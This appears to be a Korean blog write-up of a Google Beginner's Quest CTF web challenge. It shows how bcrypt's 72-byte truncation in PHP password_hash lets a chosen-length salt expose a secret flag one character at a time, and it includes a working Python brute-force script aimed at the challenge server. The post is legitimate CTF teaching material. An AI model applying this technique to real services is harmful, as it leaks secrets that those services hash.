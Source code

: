 ```yaml
---
layout: post
title: "Message"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking, google]
categories: web
---
```


Google Beginner's Request

Message

***

**Google Beginner's Request - Message**

![]({{site.baseurl}}/images/GoogleRequest/salt/1.png)

`Who remembers PHP? The password_hash() function is so convenient, no one can guess my password`

password_hash()는 간편하며, 본인의 패스워드를 볼 수 없다고 호언장담중이다.


![]({{site.baseurl}}/images/GoogleRequest/salt/2.png)

코드를 확인해보자

1. GET 요청으로 salt값 없이 전달할 경우
`Salt is important for security! Please give me a salt.`

라는 문구가 뜬다.

2. GET 요청으로 salt값을 16자 미만으로 전달할 경우
`This is too little salt! For tasty hashes we need more.`

라는 문구가 뜬다.

3. GET 요청으로 16자 이상의 Salt값을 전달할 경우

`Here you are! A tasty hash for you 😋 The flag is secure because hashes are irreversible. Even more so if they are salty!`

라는 문구와 함께 password와 Salt값을 섞은 값을 전달한다.

따라서 16자 이상의 Salt값을 전달하여 Password값을 얻어내면 된다.

하지만, password_hash는 함수가 실행될 때 마다 각기 다른 값을 뽑아낸다.

여기서 개념을 짚고 넘어가야 한다.

![]({{site.baseurl}}/images/GoogleRequest/salt/password_hash.png)

`Using the PASSWORD_BCRYPT as the algorithm,`
`will result in the password parameter being truncated to a maximum length of 72 bytes.'`

72바이트 이후에는 hash값이 잘린다는 내용
-> 그렇다면 Salt값을 71바이트로 넣고 나머지 하나를 무작위 대입한 뒤 대조해보면 되지 않을까?

![]({{site.baseurl}}/images/GoogleRequest/salt/php.png)

예상대로 72자가 넘어가게되면 뒤의 password값이 잘리게 되며,
Salt+FLAG값을 넣고 있으므로 FLAG값을 하나 얻을 때 마다
Salt값을 71에서 하나 씩 감소시키면된다.

**사용한 코드**
{% highlight python %}
import bcrypt
import requests
import warnings
from bs4 import BeautifulSoup as bs
import time
warnings.filterwarnings('ignore')

headers = {
    'Host': 'msg-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
}

params = {
    'salt': 'A'*72,
}

a = b"0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag = ""
for i in range(1,41):
    params = {
    'salt': 'A'*(72-i),
    }
    response = requests.get('https://msg-web.2024-bq.ctfcompetition.com/', params=params, headers=headers, verify=False)
    html = response.text
    soup = bs(html, "html.parser")
    pre_tag = soup.find("pre")
    hashed = pre_tag.text.strip().encode()
    for j in a:
        password = b"A" * (72-i) + flag.encode() + bytes([j])  # i는 정수니까 bytes로 변환
        if bcrypt.checkpw(password, hashed):
            flag = flag + chr(j)
            print(f"Match! now flag is : {flag}")
            time.sleep(1)
            break
    

{% endhighlight %}


![]({{site.baseurl}}/images/GoogleRequest/salt/last.png)

FLAG 획득 완료

**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.

[bcrypt]: https://pkg.go.dev/golang.org/x/crypto/bcrypt
[password-hash]: https://www.php.net/password-hash